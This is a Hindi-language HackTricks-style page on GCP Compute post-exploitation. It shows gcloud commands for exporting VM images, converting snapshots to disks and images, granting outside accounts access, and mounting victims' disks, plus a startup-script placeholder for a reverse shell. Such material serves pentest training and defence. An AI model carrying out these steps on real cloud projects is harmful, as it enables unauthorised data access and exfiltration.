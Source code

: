 # GCP - Compute Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Compute

Compute और VPC (Networking) के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### स्थानीय रूप से छवियों का निर्यात और निरीक्षण करें

यह एक हमलावर को **पहले से मौजूद छवियों के अंदर निहित डेटा तक पहुँचने** या **चल रहे VMs की नई छवियाँ बनाने** और उनके डेटा तक पहुँचने की अनुमति देगा बिना चल रहे VM तक पहुँच के।

एक VM छवि को एक बकेट में निर्यात करना और फिर उसे डाउनलोड करके स्थानीय रूप से माउंट करना संभव है, कमांड के साथ:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
इस क्रिया को करने के लिए हमलावर को स्टोरेज बकेट पर विशेषाधिकार की आवश्यकता हो सकती है और निश्चित रूप से **cloudbuild पर विशेषाधिकार** की आवश्यकता है क्योंकि यह **सेवा** है जिसे निर्यात करने के लिए कहा जाएगा।\
इसके अलावा, इसके काम करने के लिए codebuild SA और compute SA को विशेषाधिकार प्राप्त अनुमतियों की आवश्यकता है।\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` को आवश्यकता है:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

और SA `<project-id>-compute@developer.gserviceaccount.com` को आवश्यकता है:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### स्थानीय रूप से स्नैपशॉट और डिस्क का निर्यात और निरीक्षण करें

स्नैपशॉट और डिस्क को सीधे निर्यात करना संभव नहीं है, लेकिन **एक स्नैपशॉट को डिस्क में, एक डिस्क को इमेज में** में बदलना संभव है और **पिछले अनुभाग** के अनुसार, उस इमेज को निर्यात करना संभव है ताकि इसे स्थानीय रूप से निरीक्षण किया जा सके।
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Inspect an Image creating a VM

**डेटा जो एक इमेज में संग्रहीत है** या एक **चल रही VM** के अंदर से जहां एक हमलावर **ने एक इमेज बनाई है,** एक बाहरी खाते को इमेज पर पहुंच प्रदान करना संभव है:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
और फिर इससे एक नया VM बनाएं:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
यदि आप अपनी बाहरी खाता पहुंच छवि के माध्यम से नहीं दे सके, तो आप पीड़ित की परियोजना में उस छवि का उपयोग करके एक VM लॉन्च कर सकते हैं और **मेटाडेटा को एक रिवर्स शेल निष्पादित करने के लिए बना सकते हैं** छवि तक पहुंच प्राप्त करने के लिए पैरामीटर जोड़ते हुए:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### एक स्नैपशॉट/डिस्क का निरीक्षण करना उसे एक VM से जोड़कर

**डिस्क या स्नैपशॉट में संग्रहीत डेटा तक पहुँचने के लक्ष्य के साथ, आप स्नैपशॉट को डिस्क में, डिस्क को इमेज में बदल सकते हैं और पिछले चरणों का पालन कर सकते हैं।**

या आप **एक बाहरी खाते को डिस्क पर पहुँच प्रदान कर सकते हैं** (यदि प्रारंभिक बिंदु एक स्नैपशॉट है तो स्नैपशॉट पर पहुँच दें या इससे एक डिस्क बनाएं):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**एक उदाहरण** में डिस्क **जोड़ें**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM के अंदर डिस्क माउंट करें:

1.  **VM में SSH करें**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **डिस्क पहचानें**: VM के अंदर जाने के बाद, डिस्क उपकरणों की सूची बनाकर नई डिस्क की पहचान करें। आमतौर पर, आप इसे `/dev/sdb`, `/dev/sdc`, आदि के रूप में पा सकते हैं।
3.  **डिस्क को फॉर्मेट और माउंट करें** (यदि यह एक नई या कच्ची डिस्क है):

- एक माउंट पॉइंट बनाएं:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- डिस्क को माउंट करें:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

यदि आप **snapshot या डिस्क के लिए एक बाहरी प्रोजेक्ट को एक्सेस नहीं दे सकते**, तो आपको **snapshot/disk के समान प्रोजेक्ट में एक इंस्टेंस के अंदर ये क्रियाएँ करनी पड़ सकती हैं**।

{{#include ../../../banners/hacktricks-training.md}}
